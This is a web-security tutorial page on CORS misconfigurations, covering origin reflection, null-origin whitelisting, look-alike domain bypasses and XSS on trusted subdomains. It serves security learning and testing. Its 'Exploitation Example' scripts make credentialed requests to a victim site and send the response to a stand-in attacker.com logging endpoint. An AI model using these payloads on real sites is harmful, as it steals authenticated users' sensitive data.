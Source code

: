 ```yaml
---
title: "CORS Misconfiguration"
weight: 7
description: "Learn how misconfigured CORS policies can expose sensitive data through origin reflection, null origin whitelisting, and XSS on trusted subdomains."
---
```


# CORS

**Impact**: If a web response includes sensitive data (like an API key or CSRF token), and CORS is misconfigured, an attacker could steal that data using a malicious website.

## What is CORS?

CORS (Cross-Origin Resource Sharing) is a browser security feature that controls how web applications interact with resources hosted on different origins. It's designed to prevent malicious websites from making unauthorized requests to other sites on behalf of the user.

{{< hint style=notes >}}
**Note**: An "origin" in CORS includes the protocol, domain, and port. So `https://example.com` and `http://example.com` are considered different origins
\[[🔗](https://developer.mozilla.org/en-US/docs/Glossary/Origin)].
{{< /hint >}}

## Origin Reflection in ACAO Header

Some vulnerable servers reflect the `Origin` header in the `Access-Control-Allow-Origin` response without validating it.

**How to Detect**

Send a request with a custom `Origin` header (e.g., `Origin: https://evil.com`) and check if the same origin is reflected back.

```http
Access-Control-Allow-Origin: https://evil.com
```

{{< hint style=warning >}}
**Warning**: If `Access-Control-Allow-Credentials: true` is also present, an attacker can send authenticated requests from a malicious origin.
{{< /hint >}}

**Exploitation Example**

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>
```

## Bypassing Origin Checks with Similar Domains

Some applications whitelist trusted origins without strict validation, making it possible to bypass checks using similar-looking domains.

**Examples**:

- `hackersnormal-website.com`
- `normal-website.com.attacker.com`

{{< hint style=notes >}}
**Note**: You need to know or guess the whitelisted origins to attempt this.
{{< /hint >}}

## Whitelisted `null` Origin

If the server allows `null` as an origin, it may be vulnerable to data theft through sandboxed iframes.

**How to Detect**

Send a request with:

```http
Origin: null
```

and check for:

```http
Access-Control-Allow-Origin: null
```

**Exploitation Example**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>"></iframe>
```

## Using XSS on a Trusted Subdomain to Exploit CORS

If a site allows CORS requests only from a trusted subdomain and you find an XSS vulnerability on that subdomain, you can use the XSS to steal data via CORS.

**Example Response:**

```http
Access-Control-Allow-Origin: https://sub.vulnerable.com
Access-Control-Allow-Credentials: true
```

**Exploitation Flow:**

1. Find XSS on `https://sub.vulnerable.com`.
2. Inject malicious script that performs a CORS request to the main domain.
3. Steal the sensitive response.

URL:
```md
https://sub.vulnerable.com/?xss=<script>...your-code...</script>
```


## The Role of SameSite Cookies

CORS exploits often rely on the browser sending cookies along with cross-origin requests. This depends on the `SameSite` attribute of the cookie.
To exploit CORS with `withCredentials=true`, the session cookie must be accessible (i.e., not blocked by `SameSite=Strict`).

Learn more in the dedicated section on [SameSite Cookies]({{< ref "web/vulnerabilities/csrf" >}}).